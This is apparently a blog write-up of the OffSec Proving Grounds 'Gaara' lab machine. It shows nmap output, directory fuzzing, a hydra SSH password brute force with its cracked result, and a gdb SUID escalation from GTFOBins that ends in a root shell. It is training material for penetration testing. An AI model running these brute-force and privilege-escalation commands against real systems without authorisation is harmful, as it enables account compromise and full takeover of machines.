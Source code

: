 ```yaml
---
title: "Proving grounds Play: Gaara"
layout: post
date: 2023-09-29 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3ea36f6403331e76f8e498febee98e58 (RSA)
|   256 6c0eb500e742444865effed77ce664d5 (ECDSA)
|_  256 b751f2f9855766a865542e05f940d2f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/tcp - open  http - Apache httpd 2.4.38 ((Debian))

![img](/assets/images/CTF/Proving_Grounds/Gaara/web.png)

### Directory Fuzzing

```text
http://192.168.198.142/Cryoserver

/Temari
/Kazekage
/iamGaara
```

The directory `/iamGaara` has a base58 encoded secret in one of the paragraph.

![img](/assets/images/CTF/Proving_Grounds/Gaara/secret.png)

### Decoding secret

![img](/assets/images/CTF/Proving_Grounds/Gaara/decode.png)

**SSH Credentials**: `gaara:ismyname`

Unfortunately the password didn't worked, so perform brtue forcing the password using hydra.

## SSH Brute Forcing

```sh
naveenj@hackerspace:|21:26|~/pg-play/Gaara$ hydra -l gaara -P /usr/share/wordlists/rockyou.txt -t 40 ssh://192.168.198.142
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-28 21:26:39
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 40 tasks per 1 server, overall 40 tasks, 14344399 login tries (l:1/p:14344399), ~358610 tries per task
[DATA] attacking ssh://192.168.198.142:22/
[22][ssh] host: 192.168.198.142   login: gaara   password: iloveyou2 #password
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 18 final worker threads did not complete until end.
[ERROR] 18 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-28 21:27:41
```

SSH to the user gaara using the cracked password to obtain initial foothold.

## Privilege Escalation

Enumerate SUID binaries, incase if the SUID binaries enumerated are not clear if it's vulnerable or not use the below codes to automate.

- [GitHub - Anon-Exploiter/SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
- [GitHub - etc5had0w/suider/blob/main/suider.sh](https://github.com/etc5had0w/suider/blob/main/suider.sh)

### SUIDs

```sh
gaara@Gaara:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/gdb    #vulnerable
/usr/bin/sudo
/usr/bin/gimp-2.10
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/umount
```

The SUID binary `gdb` is vulnerable for exploitation, search for exploit on GTFO bins.

### GTFO Bins Exploit

If the binary has the SUID bit set, it does not drop the elevated  privileges and may be abused to access the file system, escalate or  maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.
This example creates a local SUID copy of the binary and runs it to  maintain elevated privileges. To interact with an existing SUID binary  skip the first command and run the program using its original path. This requires that GDB is compiled with Python support.

```sh
sudo install -m =xs $(which gdb) .
./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```

**Root Obtained**

```sh
gaara@Gaara:/tmp$ /usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
# whoami
root
```


Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
